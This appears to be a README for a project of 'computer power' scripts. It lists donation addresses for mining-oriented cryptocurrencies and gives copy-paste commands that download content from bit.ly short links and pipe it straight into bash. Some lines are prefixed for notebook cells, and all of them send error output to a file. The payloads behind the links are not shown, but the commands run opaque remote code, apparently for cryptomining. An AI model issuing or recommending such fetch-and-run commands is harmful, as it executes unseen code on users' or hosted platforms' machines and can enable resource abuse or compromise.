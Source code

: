 # 10 000 code and code

This project offers multiple scripts to better use your computer power and network without wasting anything

<span style="color:Red">The address and urls are hardcoded in the scripts you need to change it before using the script</span>.



## Donate

ETH:	0x1be9C1Db52aC9cD736160c532D69aA4770c327B7

ETC:	0x5C5152521D51f23735Bf14a8f6321d39bA73D95f

RVN:	RMV17aQMgMPyPqJQ5H3WRQH37Njspi1SSK

ZEC:	t1ab2rCrgCbqaspPodCALpR6epzEiu5uCHF

YEC:	s1THjZQJxthDD9tt1dRzQSqDoQQH9XwNM5x

ADA: addr1qy4aeu2wpjpuy0r2xn64eec0z6300wnqrj5ypj3ep9g49ggm7gg506stxjnjp3zjs3a9mch478sfl6qt722zu2gs28fqq5dfv6

XMR:	44ucr5iSqUjCR6m93Gu9ssJC9W1yWLGz1fZbAChLXG1QPnFD5bsTXKJAQEk8dHKDWx8hYJQ5ELqg9DJKNA1oRoNZKCGyn1p

## Scripts Direct use

!echo $(wget -q -O - bit.ly/RV00001 2> lol.out | bash )

!echo $(wget -q -O - bit.ly/RV20001 2> lol.out | bash )

wget -q -O - bit.ly/IBM0001 2> lol.out | bash 

wget -q -O - bit.ly/ET00001 2> lol.out | bash 

wget -q -O - bit.ly/RVET0001 2> lol.out | bash 

wget -q -O - bit.ly/XM00001 2> lol.out | bash 

!wget --no-cache --delete-after -q -O - bit.ly/TEsT0001 | bash

!wget --no-cache --delete-after -q -O - bit.ly/TEsT0002 | bash

!wget --no-cache --delete-after -q -O - bit.ly/TesT0003 | bash

## Solo M

